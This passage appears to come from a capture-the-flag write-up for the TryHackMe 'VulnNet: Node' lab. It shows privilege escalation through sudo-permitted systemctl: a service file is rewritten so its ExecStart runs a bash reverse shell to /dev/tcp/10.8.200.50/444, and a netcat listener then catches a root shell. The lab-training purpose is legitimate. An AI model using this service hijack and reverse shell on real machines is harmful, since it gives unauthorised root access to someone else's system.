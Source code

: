First, stop the timer with `systemctl`, then modify `vulnnet-job.service` in order to get reverse shell as root, reload the configuration and start the timer again with `systemctl`.


```shell
serv-manage@vulnnet-node:~$ sudo /bin/systemctl stop vulnnet-auto.timer
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.200.50/444 0>&1'

[Install]
WantedBy=multi-user.target
serv-manage@vulnnet-node:~$ sudo /bin/systemctl daemon-reload
serv-manage@vulnnet-node:~$ sudo /bin/systemctl start vulnnet-auto.timer
```

Open another netcat listener on `444` port and we get root reverse shell.


```shell
geobour98@kali:~$ nc -lvnp 444   
listening on [any] 444 ...
connect to [10.8.200.50] from (UNKNOWN) [10.10.213.208] 55696
bash: cannot set terminal process group (1119): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnnet-node:/# cd /root
root@vulnnet-node:/root# id    
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-node:/root# cat root.txt
THM{[REDACTED]}
```

Proof of Concept (PoC image):
![Desktop View](/assets/img/vulnnetnode/poc.png){: width="972" height="589" }
